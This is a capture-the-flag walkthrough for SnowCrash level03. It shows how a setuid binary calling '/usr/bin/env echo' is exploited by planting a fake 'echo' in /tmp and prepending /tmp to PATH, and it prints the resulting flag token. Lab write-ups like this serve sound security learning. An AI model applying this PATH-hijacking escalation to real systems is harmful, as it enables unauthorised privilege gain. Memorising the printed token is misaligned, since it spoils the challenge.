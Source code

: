  # 1st Step
List the file with `ls -l` will show us :  
`-rwsr-sr-x 1 flag03 level03 8627 Mar  5  2016 level03`  
***Notes** : The owner of the file is `flag03` so the user `level03` can execute it as `flag03`*  
  
Let's execute it to see what's appening
```
level03@SnowCrash:~$ ./level03
Exploit me
```  
If we look at the executable with `strings`:  
```
level03@SnowCrash:~$ strings level03 | grep "Exploit me"
/usr/bin/env echo Exploit me
level03@SnowCrash:~$
```  

# 2nd Step
We can see that the binary use `/usr/bin/env echo` to print "Exploit me", so we'll exploit it as suggested.  
Create a simple file named "echo" and make it execute `/bin/getflag` when call. Due to permissions restrictons, we will create it in `/tmp`.  
*Don't forget to give it the good writes*  
```
level03@SnowCrash:~$ cd /tmp
level03@SnowCrash:/tmp$ echo '/bin/getflag' > echo
level03@SnowCrash:/tmp$ chmod 777 echo
level03@SnowCrash:/tmp$ ls -l echo
-rwxrwxrwx 1 level03 level03 13 Mar 11 23:37 echo
```  
Go back to level03 home folder then add `/tmp` to the variable env `$PATH`  
```
level03@SnowCrash:/tmp$ export PATH=/tmp:$PATH
level03@SnowCrash:/tmp$ printenv | grep "PATH"
PATH=/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games
```  
Now we can re-execute `level03`
```
level03@SnowCrash:~$ ./level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
level03@SnowCrash:~$ su level04
Password:
level04@SnowCrash:~$
```  
Level03 passed !  
  
*Useful website: [$PATH](https://www.commentcamarche.net/faq/3585-bash-la-variable-d-environnement-path) ; [Privilege Escalation](https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/)* 